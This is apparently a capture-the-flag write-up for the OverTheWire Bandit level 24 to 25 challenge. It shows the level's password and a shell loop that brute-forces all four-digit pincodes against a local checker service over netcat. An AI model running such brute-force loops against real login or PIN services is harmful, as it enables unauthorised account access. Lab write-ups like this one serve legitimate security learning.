



# Bandit — Level 24 → 25

**Category:** OverTheWire / Bandit  
**Difficulty:** Hard  
**Date:** 2026-08-14

## Goal

A service on `localhost:30002` checks `bandit24`'s password plus a 4-digit pincode, both on one line. The pincode had to be brute-forced.

    ssh bandit24@bandit.labs.overthewire.org -p 2220

## Solution

Connected manually first to see the expected format:

    $ nc localhost 30002
    I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
    hVQMk3lJNsmQ7VF3ubyrNNBom7BOgVXv 1234
    Wrong! Please enter the correct current password and pincode. Try again.

4-digit pincodes only span 10,000 combinations, so generated every possibility with brace expansion and piped them all into one connection:

    $ for i in {0000..9999}; do
        echo "hVQMk3lJNsmQ7VF3ubyrNNBom7BOgVXv $i"
    done | nc localhost 30002 | tee result.txt

`tee result.txt` failed with a permission error (the working directory wasn't writable), but that only affected saving a copy — the pipe into `nc` kept running and the service kept responding "Wrong!" for each guess in order:

Eventually one guess landed on the right pincode:

    Correct!
    The password of user bandit25 is [REDACTED]

## Result

    Password for bandit25: [REDACTED]

## Key Takeaway

A 4-digit pincode is only 10,000 possibilities — small enough to brute-force in a single netcat session using shell brace expansion (`{0000..9999}`) rather than needing a dedicated scripting tool. A failed side effect (`tee` unable to write) doesn't necessarily kill the main pipeline; the actual `nc` guessing kept going regardless.
